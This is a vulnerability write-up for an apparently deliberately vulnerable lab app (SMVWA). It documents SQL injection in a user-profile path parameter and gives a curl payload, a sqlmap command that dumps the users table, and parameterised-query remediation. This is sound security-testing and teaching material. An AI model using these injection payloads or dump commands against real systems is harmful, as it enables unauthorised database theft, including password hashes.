

# SQLi-05 — SQL Injection in Public Profile URL Parameter

## 1. Vulnerability Name
SQL Injection (Error-Based / UNION / Time-Based Blind) — `GET /api/users/:userId`

## 2. Brief Description
The `userId` path parameter in the public profile request is interpolated directly into a SQL query without parameterisation. An authenticated attacker can replace the numeric ID with a SQL payload and use error-based or UNION techniques to read data from any database table.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: sqlmap 1.10#stable, curl
- User / test context: {"email":"alice@smvwa.local","password":"Alice1234!"} or any with role user
- Database: PostgreSQL 15
- Endpoint: `GET http://localhost:3000/api/users/profile/:userId`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/routes/users/profile.js` (GET `/:id`):
```js
const sql = `SELECT id, username, email, ... FROM users WHERE id = ${userId}`;
```

### Manual verification (curl)
```bash
COOKIE=$(curl -si -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@smvwa.local","password":"Alice1234!"}' \
  | grep -i "set-cookie" | grep -o 'auth=[^;]*')

curl -s "http://localhost:3000/api/users/profile/11%20OR%201%3D1--" --cookie "$COOKIE"
```

### sqlmap — dump via path parameter
```bash
sqlmap -u "http://localhost:3000/api/users/profile/1*" \
  --cookie="$COOKIE" \
  --technique=UEB \
  --dbms=PostgreSQL \
  --level=3 --risk=2 \
  -T users \
  --dump \
  --batch
```

## 5. Evidence (Artifacts)

See: [`artifacts/sqlmap_output.txt`](artifacts/sqlmap_output.txt)

## 6. Impact (CIA + Business)
- **Confidentiality:** Full DB read via UNION, including password hashes.
- **Integrity:** Stacked queries allow modifications.
- **Availability:** Low DoS risk via long-running queries.
- **Business impact:** Privacy compromise for all users; account enumeration via sequential ID iteration.

## 7. Risk Rating (CVSS 3.1)
```
CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L
Score: 8.3 — HIGH
```

## 8. Recommended Mitigation
```js
// BEFORE (vulnerable):
const sql = `SELECT ... FROM users WHERE id = ${userId}`;

// AFTER (safe):
const sql = 'SELECT ... FROM users WHERE id = $1';
const result = await pool.query(sql, [userId]);
```

## 9. Remediation Guidance
1. Parameterise the query in `routes/users/profile.js` for the `/:id` route.
2. Validate that `userId` is an integer before querying: `const id = parseInt(req.params.userId, 10); if (isNaN(id)) return res.status(400)...`.
3. Limit columns returned for public profiles — do not expose `email` or `password`.
